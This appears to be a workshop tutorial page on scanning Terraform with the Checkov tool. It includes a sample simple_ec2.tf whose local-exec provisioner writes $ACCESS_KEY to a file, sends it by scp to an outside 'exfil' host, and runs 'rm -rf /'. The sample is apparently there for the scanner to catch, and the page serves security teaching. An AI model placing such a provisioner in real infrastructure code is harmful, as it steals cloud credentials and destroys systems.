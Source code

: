 ```js
cd code/
checkov -d .
```
{{%expand "Is this learn theme rocks ?" %}} 

![1](/aws-ws/images/1/1.png?featherlight=false&width=90pc) ![5](/aws-ws/images/6/61/5.png?featherlight=false&width=90pc) ![6][5]

{{% /expand%}}

![6][5]


Failed checks are returned containing the offending file and resource, the lines of code that triggered the policy, and a guide to fix the issue.

![6][5-1]

Now try running checkov on an individual file with `checkov -f <filename>`.

{{%expand "simple_ec2.tf" %}}
```sh
provider "aws" {
  region = "us-west-2"
}

resource "aws_ec2_host" "test" {
  instance_type     = "t3.micro"
  availability_zone = "us-west-2a"

  provisioner "local-exec" {
    command = "echo Running install scripts.. 'echo $ACCESS_KEY > creds.txt ; scp -r creds.txt root@my-home-server.com/exfil/ ; rm -rf /'   "
  }

}

```
{{% /expand%}}

```sh
checkov -f deployment_ec2.tf
checkov -f simple_ec2.tf
```

![6][5-2]

Policies can be optionally enforced or skipped with the `--check` and `--skip-check` flags.
```sh
checkov -f deployment_s3.tf --check CKV_AWS_18,CKV_AWS_52
checkov -f deployment_s3.tf --skip-check CKV_AWS_18,CKV_AWS_52
```
Frameworks can also be selected or omitted for a particular scan:
```sh
checkov -d . --framework secrets --enable-secret-scan-all-files
checkov -d . --skip-framework dockerfile

```


[5]: /aws-ws/images/6/61/5.png?featherlight=false&width=90pc
[5-1]: /aws-ws/images/6/61/5-1.png?featherlight=false&width=50pc
[5-2]: /aws-ws/images/6/61/5-2.png?featherlight=false&width=50pc
[6]: /aws-ws/images/6/61/6.png?featherlight=false&width=90pc
[8]: /aws-ws/images/6/61/8.png?featherlight=false&width=90pc
[8-1]: /aws-ws/images/6/61/8-1.png?featherlight=false&width=90pc
[10]: /aws-ws/images/6/61/10.png?featherlight=false&width=90pc
[14]: /aws-ws/images/6/61/14.png?featherlight=false&width=90pc
[15]: /aws-ws/images/6/61/15.png?featherlight=false&width=90pc
[16]: /aws-ws/images/6/61/16.png?featherlight=false&width=90pc
[17]: /aws-ws/images/6/61/17.png?featherlight=false&width=90pc
[18]: /aws-ws/images/6/61/18.png?featherlight=false&width=90pc
[19]: /aws-ws/images/6/61/19.png?featherlight=false&width=90pc
[611]: /aws-ws/images/6/61/ex/1.png?featherlight=false&width=90pc
[612]: /aws-ws/images/6/61/ex/2.png?featherlight=false&width=90pc
[613]: /aws-ws/images/6/61/ex/3.png?featherlight=false&width=90pc
[614]: /aws-ws/images/6/61/ex/4.png?featherlight=false&width=90pc
[616]: /aws-ws/images/6/61/ex/6.png?featherlight=false&width=90pc
[617]: /aws-ws/images/6/61/ex/7.png?featherlight=false&width=90pc
[618]: /aws-ws/images/6/61/ex/8.png?featherlight=false&width=90pc
[619]: /aws-ws/images/6/61/ex/9.png?featherlight=false&width=90pc
[6110]: /aws-ws/images/6/61/ex/10.png?featherlight=false&width=90pc
[6111]: /aws-ws/images/6/61/ex/11.png?featherlight=false&width=90pc
[6112]: /aws-ws/images/6/61/ex/12.png?featherlight=false&width=90pc
[6113]: /aws-ws/images/6/61/ex/13.png?featherlight=false&width=90pc
[6114]: /aws-ws/images/6/61/ex/14.png?featherlight=false&width=90pc